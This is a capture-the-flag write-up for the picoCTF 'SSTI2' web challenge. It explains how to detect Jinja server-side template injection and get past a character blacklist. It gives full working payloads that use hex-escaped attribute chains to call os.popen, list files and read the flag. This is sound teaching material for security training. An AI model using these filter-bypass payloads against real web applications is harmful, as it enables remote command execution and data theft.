



# SSTI2

> I made a cool website where you can announce whatever you want! 
> I read about input sanitization, so now I remove any kind of characters that could be a problem :)
> I heard templating is a cool and modular way to build web apps! Check out my website

## Steps 

1. Given a Web Application Challenge, It's very straight forward looking at the title (SSTI1). However if we have to deduce it from our view, we can check it using Wappalyzer to see what tech stack it was build with. 

It was build using python and most likely a jinja template. We can try a very generic payload to test it. `{{ 7*7 }}` is our payload and it returns 49

2. Lets Try using our previous payload for similar(prequel) challenge `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read() }}`

3. Sadly it got blocked(Sanitized), after some trials and errors we know that some of the blacklisted characters are `_ []` but we can substitude that using unicode. 

> `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}`

Since it works, lets try reading the flag

> `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`

Flag: 
> `picoCTF{sst1_f1lt3r_byp4ss_e39c23ee}`